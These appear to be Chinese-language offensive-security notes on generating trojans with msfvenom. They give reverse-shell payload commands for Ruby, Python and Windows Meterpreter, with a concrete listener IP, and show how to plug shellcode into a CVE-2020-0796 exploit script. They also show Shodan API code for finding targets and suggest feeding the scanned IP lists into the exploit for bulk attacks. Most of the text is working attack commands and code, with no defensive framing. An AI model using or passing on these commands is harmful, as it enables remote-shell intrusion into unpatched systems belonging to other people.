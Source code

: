 msfvenom可以生成apk


#### 跨平台木马设置

解释器语言生成木马
python/java/php/ruby

```
set payload /ruby/shell_reverse_tcp

generate -f rb -o ~/back.rb
generate -f raw -o ~/back.rb


generate -f python -o ~/back.py
generate -f raw -o ~/back.py
```


#### cve-2020-0796

需要搭建靶场环境查找系统安装补丁号
systeminfo
KB4551762

exploitdb找到cve-2020-0796的exploit脚本
由于console没有变量名替换，通过msfvenom生成

-b 取消滑块 '\x00\xff'
-v 指定变量名 

```
msfvenom -p windows/xx/xxx/xxxtcp lhost=ip.ip.ip.ip lport=4444 -f python -v USER_PAYLOAD -b '\x00\xff'
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.113.133 LPORT=4444 -f python -v USER_PAYLOAD -b '\0x00' 
```

按指定变量名替换shellcode之后，在exploit.py当中可以结合shadon进行ip扫描攻击，获取meterpreter
但此脚本很不稳定，常攻击失败shellcode读取不到，msf监听会断

shodan需要使用api对接，生成扫描到的txt文件，在通过修改exploit脚本为读取ip地址文件
```python
import shodan
SHODAN_API_KEY = "API_Key"
api = shodan.Shodan(SHODAN_API_KEY)
```
搜索结果
```python
try:
    ### 搜索 Shodan
    results = api.search('apache')
    ### 显示结果
    print 'Results found: %s' % results['total']
    for result in results['matches']:
            print result['ip_str']
except shodan.APIError, e:
    print 'Error: %s' % e
```
